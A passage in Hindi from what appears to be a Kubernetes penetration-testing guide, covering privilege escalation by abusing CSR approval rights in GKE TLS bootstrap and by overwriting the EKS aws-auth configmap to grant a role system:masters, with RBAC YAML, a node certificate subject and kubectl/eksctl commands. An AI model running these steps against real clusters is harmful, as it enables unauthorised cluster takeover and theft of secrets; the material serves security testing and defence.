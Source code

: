 ```yaml
- apiGroups:
- certificates.k8s.io
resources:
- certificatesigningrequests/approval
verbs:
- update
- apiGroups:
- certificates.k8s.io
resources:
- signers
resourceNames:
- example.com/my-signer-name # example.com/* can be used to authorize for all signers in the 'example.com' domain
verbs:
- approve
```
तो, नए नोड CSR के अनुमोदित होने के साथ, आप नोड्स की विशेष अनुमतियों का **दुरुपयोग** कर सकते हैं ताकि **गुप्त जानकारी चुराई जा सके** और **अधिकार बढ़ाए जा सकें**।

[**इस पोस्ट**](https://www.4armed.com/blog/hacking-kubelet-on-gke/) और [**इस एक**](https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/) में GKE K8s TLS Bootstrap कॉन्फ़िगरेशन को **स्वचालित हस्ताक्षर** के साथ कॉन्फ़िगर किया गया है और इसका **दुरुपयोग** करके एक नए K8s नोड के क्रेडेंशियल्स उत्पन्न किए जाते हैं और फिर उन पर अधिकार बढ़ाने के लिए गुप्त जानकारी चुराई जाती है।\
यदि आपके पास **उल्लेखित अधिकार हैं तो आप वही कर सकते हैं**। ध्यान दें कि पहला उदाहरण उस त्रुटि को बायपास करता है जो नए नोड को कंटेनरों के अंदर गुप्त जानकारी तक पहुँचने से रोकती है क्योंकि **नोड केवल उन कंटेनरों के गुप्त जानकारी तक पहुँच सकता है जो उस पर माउंट किए गए हैं।**

इसका बायपास करने का तरीका बस यह है कि **उस नोड नाम के लिए नोड क्रेडेंशियल्स बनाएं जहां दिलचस्प गुप्त जानकारी वाला कंटेनर माउंट किया गया है** (लेकिन पहले पोस्ट में इसे करने का तरीका देखें):
```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```
### AWS EKS aws-auth configmaps

EKS (AWS में होना आवश्यक) क्लस्टरों पर kube-system namespace में **`configmaps`** को संशोधित करने वाले प्रिंसिपल **aws-auth** configmap को ओवरराइट करके क्लस्टर एडमिन विशेषाधिकार प्राप्त कर सकते हैं।\
आवश्यक क्रियाएँ **`update`** और **`patch`** हैं, या यदि configmap नहीं बनाया गया है तो **`create`**: 

{% code overflow="wrap" %}
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
name: aws-auth
namespace: kube-system
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node:{{EC2PrivateDNSName}}
groups:
- system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

```